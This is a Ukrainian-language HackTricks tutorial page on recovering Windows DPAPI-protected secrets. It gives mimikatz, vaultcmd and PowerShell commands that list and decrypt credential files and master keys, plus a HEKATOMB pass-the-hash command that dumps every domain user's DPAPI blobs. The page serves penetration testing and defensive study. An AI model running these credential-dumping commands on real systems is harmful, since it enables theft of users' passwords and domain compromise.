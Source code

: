 # DPAPI - Витягування Паролів

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) є найважливішою подією в сфері кібербезпеки в **Іспанії** та однією з найважливіших в **Європі**. З **метою просування технічних знань**, цей конгрес є гарячою точкою зустрічі для професіоналів у сфері технологій та кібербезпеки в усіх дисциплінах.

{% embed url="https://www.rootedcon.com/" %}

## Що таке DPAPI

API захисту даних (DPAPI) в основному використовується в операційній системі Windows для **симетричного шифрування асиметричних приватних ключів**, використовуючи або секрети користувача, або системні секрети як значне джерело ентропії. Цей підхід спрощує шифрування для розробників, дозволяючи їм шифрувати дані, використовуючи ключ, отриманий з секретів входу користувача або, для системного шифрування, секретів аутентифікації домену системи, таким чином усуваючи необхідність для розробників управляти захистом ключа шифрування самостійно.

### Захищені Дані за допомогою DPAPI

Серед особистих даних, захищених DPAPI, є:

* Паролі та дані автозаповнення Internet Explorer та Google Chrome
* Паролі електронної пошти та внутрішніх FTP-акаунтів для таких програм, як Outlook та Windows Mail
* Паролі для спільних папок, ресурсів, бездротових мереж та Windows Vault, включаючи ключі шифрування
* Паролі для підключень до віддаленого робочого столу, .NET Passport та приватні ключі для різних цілей шифрування та аутентифікації
* Мережеві паролі, керовані Credential Manager, та особисті дані в програмах, що використовують CryptProtectData, таких як Skype, MSN messenger та інші

## Список Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## Файли облікових даних

Файли **облікових даних, що захищені** можуть бути розташовані в:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Отримайте інформацію про облікові дані за допомогою mimikatz `dpapi::cred`, у відповіді ви можете знайти цікаву інформацію, таку як зашифровані дані та guidMasterKey.
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
Ви можете використовувати **mimikatz module** `dpapi::cred` з відповідним `/masterkey` для розшифрування:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Master Keys

Ключі DPAPI, які використовуються для шифрування RSA ключів користувача, зберігаються в каталозі `%APPDATA%\Microsoft\Protect\{SID}`, де {SID} є [**Security Identifier**](https://en.wikipedia.org/wiki/Security\_Identifier) **цього користувача**. **Ключ DPAPI зберігається в тому ж файлі, що й майстер-ключ, який захищає приватні ключі користувача**. Зазвичай це 64 байти випадкових даних. (Зверніть увагу, що цей каталог захищений, тому ви не можете перерахувати його за допомогою `dir` з cmd, але ви можете перерахувати його з PS).
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
Це те, як виглядає кілька Майстер Ключів користувача:

![](<../../.gitbook/assets/image (1121).png>)

Зазвичай **кожен майстер ключ є зашифрованим симетричним ключем, який може розшифрувати інший вміст**. Тому **екстракція** **зашифрованого Майстер Ключа** є цікавою для того, щоб **розшифрувати** пізніше той **інший вміст**, зашифрований ним.

### Екстракція майстер ключа та розшифровка

Перегляньте пост [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) для прикладу, як екстрактувати майстер ключ і розшифрувати його.

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) є C# портом деяких функцій DPAPI з проекту [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/).

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) є інструментом, який автоматизує екстракцію всіх користувачів і комп'ютерів з LDAP каталогу та екстракцію резервного ключа контролера домену через RPC. Скрипт потім вирішить всі IP-адреси комп'ютерів і виконає smbclient на всіх комп'ютерах, щоб отримати всі DPAPI блоби всіх користувачів і розшифрувати все з резервним ключем домену.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

З екстрактованим списком комп'ютерів з LDAP ви можете знайти кожну підмережу, навіть якщо ви не знали про них!

"Тому що прав адміністратора домену недостатньо. Зламайте їх усіх."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) може автоматично вивантажувати секрети, захищені DPAPI.

## Посилання

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) є найактуальнішою подією в галузі кібербезпеки в **Іспанії** та однією з найважливіших в **Європі**. З **метою просування технічних знань**, цей конгрес є гарячою точкою зустрічі для професіоналів у сфері технологій та кібербезпеки в кожній дисципліні.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>
{% endhint %}
